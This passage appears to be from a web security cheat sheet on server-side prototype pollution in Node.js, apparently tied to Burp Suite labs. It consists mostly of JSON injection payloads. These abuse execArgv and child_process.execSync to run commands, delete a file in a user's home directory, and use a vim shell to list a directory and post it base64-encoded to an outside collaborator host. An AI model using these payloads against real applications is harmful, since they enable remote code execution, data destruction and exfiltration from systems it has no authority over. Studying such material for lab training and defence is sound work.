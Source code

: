 
* If the prototype pollution payload was successful, you can see a notable difference in the response, while not breaking the application's functionality.


* Burp Suite has an extension that can help to identify server-side prototype pollution:

    * Server-Side Prototype Pollution Scanner - https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8



<br><br>


### __Server-side Prototype Pollution - Remote Code Execution and Exfiltrate Sensitive Data__

* Payloads: (Inject these in JSON Body of HTTP requests)

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

<br>

* "Vim has an interactive prompt and expects the user to hit Enter to run the provided command. As a result, you need to simulate this by including a newline (\n) character at the end of your payload, as shown in the examples."

```json
"shell":"vim",
"input":":! <command>\n"
```

```json
"__proto__": {
    "shell":"vim",
    "input":":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

<br>

* Exfiltrate data to Burp Collab:

```json
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```
